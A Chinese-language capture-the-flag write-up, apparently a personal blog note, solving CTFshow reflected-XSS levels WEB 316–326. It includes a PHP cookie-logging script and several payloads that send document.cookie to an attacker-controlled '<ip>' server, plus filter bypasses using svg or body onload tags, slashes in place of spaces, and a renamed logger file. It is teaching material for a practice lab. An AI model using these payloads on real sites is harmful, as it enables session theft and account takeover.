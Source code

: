 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/CTFshow_XSS_反射型.md","permalink":"/安全/靶场/CTFshow_XSS_反射型/","title":"CTFshow_XSS_反射型"}
---
```


# WEB 316

![Pasted image 20240816151725.png](/img/user/picture/Pasted%20image%2020240816151725.png)
这题是反射型XSS来获取管理员cookie，我们在输入框里面输入的内容会存到网页中并生成一个连接，当这个链接🔗生成时后台的管理员也会访问，这里应该时模拟的是我们诱导管理员访问攻击链接

首先测试一下xss
`<script>alert(1)</script>`

发现他这里就直接可以注入![Pasted image 20240816152148.png](/img/user/picture/Pasted%20image%2020240816152148.png)
![Pasted image 20240816152236.png](/img/user/picture/Pasted%20image%2020240816152236.png)


接下载需要在服务器上创建一个文件来接收cookie信息
~~这里我尝试过用xss平台和在自己电脑上搭建，但是都不行，怀疑是后台没有办法访问到xss平台和我的电脑ip，有可能是防火墙的原因？我也不是很清楚~~

```php
# xss.php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```
接下来构造攻击payload
```
<script>document.location.href="http://<ip>/xss.php?cookie="+document.cookie</script>
```

![Pasted image 20240816152831.png](/img/user/picture/Pasted%20image%2020240816152831.png)

就接收到了flag



# WEB 317

使用上一关的payload已经不能用，他这一题是过滤了`script`，所以我们尝试换一个标签

构造测试payload
```
<svg onload=alert("xss");>
```

![Pasted image 20240816201658.png](/img/user/picture/Pasted%20image%2020240816201658.png)
发现可以注入，则构造payload
```
<svg onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```
得到flag
![Pasted image 20240816201753.png](/img/user/picture/Pasted%20image%2020240816201753.png)

#  WEB 318、319

上一关payload可解

```
<svg onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```


# WEB 320

上一关的payload不可用，我们先换一个标签试一下
这一关开始应该是过滤了空格

```
<body/onload=alert("xss");>
```
![Pasted image 20240816203052.png](/img/user/picture/Pasted%20image%2020240816203052.png)

发现可以，我们尝试获取flag

```
<body/onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```

![Pasted image 20240816203202.png](/img/user/picture/Pasted%20image%2020240816203202.png)



# WEB 321

上一关payload可解

```
<body/onload=document.location.href="http://<ip>//xss.php?cookie="+document.cookie;>
```



# WEB 322

这一题有点坑，竟然过滤了关键词`xss`，md，服了
```
<body/onload=alert("hellokongyu");>
```


![Pasted image 20240816204436.png](/img/user/picture/Pasted%20image%2020240816204436.png)

我们还要修改一下服务器的文件名
```
<body/onload=document.location.href="http://<ip>//get.php?cookie="+document.cookie;>
```



得到flag
![Pasted image 20240816204709.png](/img/user/picture/Pasted%20image%2020240816204709.png)


# WEB 323、324、325、326

上一关payload可解
```
<body/onload=document.location.href="http://<ip>//get.php?cookie="+document.cookie;>
```


注意326好像是过滤了`alert`
